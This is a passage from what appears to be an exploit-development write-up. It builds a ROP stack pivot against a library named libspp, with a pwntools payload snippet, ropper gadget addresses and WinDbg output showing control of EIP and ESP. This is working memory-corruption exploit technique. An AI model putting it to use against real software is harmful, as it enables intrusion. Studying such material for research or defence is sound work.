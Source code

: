 To find this we can use ropper to generate all the possible rop gadgets.

```
0x10039f9e: add esp, 0x4e8; ret 0x18;
```

This is as close as I could I could get. Updating the script as follows the recrashing the application:
```
stack_pivot = 0x10039f9e #add esp, 0x4e8; ret 0x18;

body = b'A' * deref_off
body += b'B'* 4
body += b'C' * (eip_off - len(body))
#body += b'D' * 4
body += pwn.p32(stack_pivot)
```

Setting a breakpoint and running the application
```
0:007> bp 0x10039f9e
0:007> g
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=10039f9e edx=77638fd0 esi=00000000 edi=00000000
eip=10039f9e esp=02cbf560 ebp=02cbf580 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
libspp!SCA_ClsReporter::operator=+0x970e:
10039f9e 81c4e8040000    add     esp,4E8h
0:007> t
eax=00000000 ebx=00000000 ecx=10039f9e edx=77638fd0 esi=00000000 edi=00000000
eip=10039fa4 esp=02cbfa48 ebp=02cbf580 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
libspp!SCA_ClsReporter::operator=+0x9714:
10039fa4 c21800          ret     18h
0:007> 
eax=00000000 ebx=00000000 ecx=10039f9e edx=77638fd0 esi=00000000 edi=00000000
eip=41414141 esp=02cbfa64 ebp=02cbf580 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
41414141 ??              ???
0:007> dd @esp
02cbfa64  43434343 43434343 43434343 43434343
02cbfa74  43434343 43434343 43434343 43434343
02cbfa84  43434343 43434343 10039f9e 45454545
02cbfa94  45454545 45454545 45454545 45454545
02cbfaa4  45454545 45454545 45454545 45454545
02cbfab4  45454545 45454545 45454545 45454545
02cbfac4  45454545 45454545 45454545 45454545
02cbfad4  45454545 45454545 45454545 45454545
```

This shows a few things, the first being that we need to include a ropnop at `0x02cbfa48` instead of `AAAA`, and that we now control `esp`!

Instead of doing a ropnop it would be a good idea to realign the stack. So we need a gadget that will inc esp by `2 + 4N` 
```
0x10094a53: add esp, 0xc; ret;
```
